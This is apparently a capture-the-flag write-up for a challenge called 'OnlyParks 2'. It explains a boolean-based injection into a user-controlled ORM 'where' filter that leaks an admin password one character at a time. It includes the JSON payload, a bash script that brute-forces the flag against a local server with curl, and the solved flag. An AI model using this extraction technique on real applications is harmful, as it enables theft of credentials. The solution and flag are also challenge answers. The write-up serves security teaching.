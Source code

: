 # OnlyParks 2 📖🎡🎢

## Write-up

In this challenge, we only control the `where` so we have to use a boolean-based attack. We can do that by checking if the password starts with a certain string. If there are no articles returned, the begining of the password is wrong, if there are articles returned, we guessed a character and can continue to the next.

```json
{
  "clowns":{
    "every":{
      "clown":{
        "isAdmin":true,
        "password": {
          "startsWith": "flag-..."
        }
      }
    }
  }
}
```

Here's a bash script to solve the challenge:
```bash
#!/bin/bash
FLAG="flag-"
echo -n "$FLAG"
while :; do
  OK=0
  for CHAR in {a..f} {0..9}; do
    RESULT=$(curl -s -XPOST http://localhost:5001/api/article \
      -H "Content-Type: application/json" \
      -d '{"clowns":{"every":{"clown":{"isAdmin":true,"password":{"startsWith":"'${FLAG}${CHAR}'"}}}}}' | \
        jq ".results | length")
    if [ "$RESULT" -ne 0 ]; then
      FLAG="${FLAG}${CHAR}"
      echo -n "${CHAR}"
      OK=1
      break
    fi
  done

  if [ "$OK" -ne 1 ]; then
    break
  fi
done
```

## Flag

`flag-89a5178d28493b04d91bb0e2296d15c7`